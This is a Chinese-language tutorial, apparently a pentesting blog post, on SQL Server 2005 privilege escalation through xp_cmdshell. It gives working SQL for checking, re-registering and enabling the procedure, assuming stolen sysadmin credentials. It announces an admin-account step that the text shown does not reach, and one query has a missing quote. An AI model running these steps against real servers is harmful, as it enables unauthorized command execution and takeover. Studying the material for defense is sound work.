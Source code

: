 环境：
---

*   Windows server2003
    
*   SQLserver2005；
    

xp_cmdshell 扩展存储过程提权
====================

扩展存储过程中 xp_cmdshell 是一个开放接口，可以让 SQLserver 调用 cmd 命令，直接用 SQL 语句实现 cmd 操作，危害非常大。此存储过程在 SQLserver2000 中默认开启，2005 本身及之后的版本默认禁止，所以想要使用该存储过程，就需要拥有 SA 账号相应权限，使用 sp_configure（显示或更改当前服务器的全局配置设置）将其开启。

SA 是 Microsoft SQLServer 的管理员帐号，拥有最高权限，它可以执行扩展存储过程，并获得返回值。2005 的 xp_cmdshell 的权限一般是 system，而 2008 多数为 nt authority\network service。

一、**前提条件**

*   已获取到 sqlserver sysadmin 权限用户的账号与密码；
    
*   SQLserver 服务未降权：
    
*   SQLserver 可以外连；
    

### 执行系统命令添加管理员账号提权

1.  连接 SQL server 数据库，检查 xp_cmdshell 是否开启
    

> select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell;
> 
> \# xtype 为对象类型，xtype='x'表示 xp_cmdshell 的对象类型为扩展存储过程。

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdfxtTxicibTkS6nkRRk2rfvJoa9oga0iby9fVGLyXSicoNbsgVSQLcPATCeg/640?wx_fmt=png)

若返回结果为 1，则证明开启。

*   如果 xp_cmdshell 被删除，可以使用以下命令重新加载。
    

> dbcc addextendedproc("xp_cmdshell","xplog70.dll");

*   如果连 xplog70.dll 文件都被被删除，可以上传 xplog70.dll 进行恢复
    

> exec master.sys.sp_addextendedproc 'xp_cmdshell', 'C:\Program Files\Microsoft SQL Server\MSSQL\Binn\xplog70.dll';

2.  启用 xp_cmdshell 扩展存储过程
    

> exec sp_configure 'show advanced options',1;
> 
> \# 默认情况下 sp_configure 无法查看和更改高级配置选项，show advanced options” 用来显示或更改当前服务器的全局配置设置。当 “显示高级选项” 设置为 1 时（默认值为 0），可以使用 sp_configure 列出、更改高级选项。
> 
> reconfigure;
> 
> # reconfigure 使语句执行后立即生效，若无此命令，需重启 SQLserver 后才生效。
> 
> exec sp_configure 'xp_cmdshell',1;
> 
> reconfigure;
